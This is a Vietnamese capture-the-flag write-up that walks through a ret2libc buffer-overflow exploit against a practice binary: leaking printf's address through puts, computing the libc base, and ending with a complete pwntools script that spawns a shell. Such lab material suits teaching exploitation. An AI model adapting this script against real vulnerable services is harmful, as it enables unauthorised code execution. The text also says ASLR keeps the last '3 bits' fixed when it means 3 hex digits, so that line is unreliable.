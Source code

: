 Chạy thử  mình thấy chương trình yêu cầu nhập vào 1 xâu và mục tiêu là thực thi được shell:

![alt text](image.png)

Theo kinh nghiệm mình dùng lệnh `objdump` thì thấy có hàm `main` và `vuln`, thử xem 2 hàm này có gì:

![alt text](image-1.png)

Không có gì phức tạp cả, nhưng bài này sẽ không đơn giản như vậy vì ASLR:

![alt text](image-2.png)

ASLR sẽ randomize địa chỉ mỗi lần chạy chương trình nhưng 3 bit cuối được giữ nguyên, vì vậy ý tưởng sẽ là leak địa chỉ của hàm sẵn có trong chương trình, tra phiên bản libc từ đó tính ra địa chỉ thật của `system()` và `/bin/sh`. Mình sẽ dùng hàm `puts()` để in địa chỉ "real time" của `printf()`, suy ra địa chỉ của libc, từ đó tìm ra địa chỉ của hàm `system()` và xâu `/bin/sh`.

![alt text](image-3.png)

Địa chỉ `0x601020` là địa chỉ của vùng nhớ chứa địa chỉ "real time" của hàm `printf()`, vì vậy lấy địa chỉ này làm tham số cho hàm `puts()` thì sẽ in ra được địa chỉ thật trong libc của hàm `printf()` tại mỗi lần chạy.
Kiến trúc x64 truyền tham số bằng thanh ghi `rdi`, vì vậy mình sẽ dùng `ropper` để tìm gadget `pop rdi; ret`

![alt text](image-4.png)

Việc còn lại là tìm vị trí của return address:

![alt text](image-5.png)

Return address bị ghi đè bởi 8 byte `0x6e`, vậy cần truyền vào 104 byte rác. Dù địa chỉ các hàm bị thay đổi ngẫu nhiên tuy nhiên khoảng cách giữa chúng lại không đổi, do vậy từ địa chỉ `printf()` được leak ra ta sẽ tính được base address của libc => dễ dàng suy ra địa chỉ của `system()` và `/bin/sh`.

![alt text](image-6.png)
![alt text](image-7.png)
![alt text](image-8.png)

Script:
```py
from pwn import *

# 1 số địa chỉ cần thiết
p = process('./ret2libc')
padding = b"A"*104
pop_rdi = 0x00000000004006a3
print_at_got = 0x601020
puts_at_plt = 0x400480
main = 0x0000000000400610

# tạo buffer truyền vào chương trình
buf = padding
buf += p64(pop_rdi)
buf += p64(print_at_got)
buf += p64(puts_at_plt)
buf += p64(main)

# gửi buffer
p.sendline(buf)
p.recvuntil(b"No shell for you :(\n")

recv = p.recvline()
print(recv)

# in ra địa chỉ hàm printf()
leak = u64(recv.strip().ljust(8, b"\x00"))
log.info(f"Leaked printf address -> {hex(leak)}")

# tính base address của libc
offset_printf = 0x52b30
libc_base = leak - offset_printf
log.info(f"libc base address -> {hex(libc_base)}")

# tính địa chỉ hàm system()
offset_system = 0x4c920
libc_system = libc_base + offset_system
log.info(f"system address -> {hex(libc_system)}")

# tính địa chỉ xâu "/bin/sh"
offset_binsh = 0x19604f
libc_binsh = libc_base + offset_binsh
log.info(f"/bin/sh address -> {hex(libc_binsh)}")

# truyền chuỗi exploit
ret = 0x000000000040060f
exploit = padding
exploit += p64(pop_rdi)
exploit += p64(libc_binsh)
exploit += p64(ret)
exploit += p64(libc_system)

# gửi chuỗi exploit
p.sendline(exploit)

p.interactive() 
```
Kết quả:

![alt text](image-9.png)